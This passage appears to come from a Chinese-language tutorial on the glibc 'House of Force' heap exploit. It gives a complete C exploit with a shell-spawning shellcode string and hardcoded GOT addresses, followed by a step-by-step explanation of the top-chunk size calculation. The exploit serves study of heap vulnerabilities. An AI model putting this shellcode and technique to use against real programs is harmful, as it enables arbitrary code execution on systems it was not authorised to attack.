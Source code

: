 ```
#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"
                
/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
        
int main( void )
{       
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };
        
        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';
        
        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */ 

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
![](http://r.photo.store.qq.com/psb?/V13dixb24fK0LX/D2H7EPEX4DANhuJ6yw1wU6PPMkXHBw3k*LJI2JArqEo!/r/dB4BAAAAAAAA)
那么在攻击者给出这些参数之后就能有如下的情况发生：
第[2]行覆写top chunk的大小：
- 攻击者给出参数(argv[1]-shellcode+pad+0xFFFFFFFF)并能将其拷贝到堆buffer ‘buf1’中。但是由于argv[1]比256大，top chunk的大小就会被覆写为0xFFFFFFFF

第[3]行使用top chunk代码来分配出一个很大的block出来：
- 在分配之后又有一个很大的分配请求，新的top chunk就在GOT free函数的前面8个字节处，因此如果再给一些mallocrequest的话就能覆写GOT free函数的入口了
- 攻击者的参数(argv[2]-0xFFFF744)作为大小参数传递给了第二个malloc调用，大小参数的计算通过如下公式进行：
	- 大小=((free-8)-top)
		- free是GOT中free的入口地址，因此free=0x08049858
		- top是当前的top chunk地址（在第一次malloc之后）
	- 因此size=((0x8049858-0x8)-0x804a108)=-8b8=0xFFFFF748
	- 当大小为0xFFFFF748时，我们放置新的top chunk 8字节地方应该在GOT的free入口应该通过如下的公式来实现：
		- (0xFFFFF748+0x804a108) = 0x08049850 = (0x08049858-0x8)
	- 但是当攻击者传进一个0xFFFFF748的参数时，glibc malloc会将其转化为0xFFFFF750，因此新的trunk会被分配在0x8049848而不是0x8049850。因此攻击者不应该传0xFFFFF748而应该是0xFFFFF744来作为size参数，这样就能得到我们最终要的0xFFFFF748了

第[4]行中：
- 如今既然在第[3]行中将top chunk指向了0x8049850，那么一个对内存256字节分配的请求将会使得glibc malloc返回0x8049858，从而得到buf3的一个copy

第[5]行中：
- 将buf1的地址拷贝到buf3，就可以造成GOT覆写了。在第[6]行中对free的调用就会造成shellcode的调用
